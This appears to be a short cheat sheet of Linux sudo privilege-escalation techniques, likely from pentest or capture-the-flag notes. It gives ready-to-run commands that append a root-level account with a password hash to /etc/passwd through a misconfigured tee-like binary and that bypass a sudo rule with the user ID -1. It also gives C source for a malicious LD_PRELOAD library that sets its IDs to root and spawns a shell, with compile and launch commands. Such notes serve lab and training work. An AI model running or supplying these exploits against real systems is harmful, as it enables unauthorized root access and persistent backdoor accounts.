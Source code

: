 # Sudo 
------

teehee (sudo -l)
-a appends everything to the specified file.
```bash
$ sudo /usr/bin/teehee -a /etc/passwd
noob:$5$cbbncbbn$NR5AzrW84BY0BI0ok8kckJpg9RL8YFoI6LjOjQLip2B:0:0:root:/root:/bin/bash
```

not root on sudo -l :
```bash
(ALL, !root) /bin/bash

sudo -u#-1 /bin/bash
```


### LD_PRELOAD:
While running sudo -l if we find:
```bash
env_keep+=LD_PRELOAD
```

The user will need sudo access to run some command.

```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/sh");  
}
```

Compile the code:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Execute LD_PRELOAD along with the sudo permissions:
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

-----
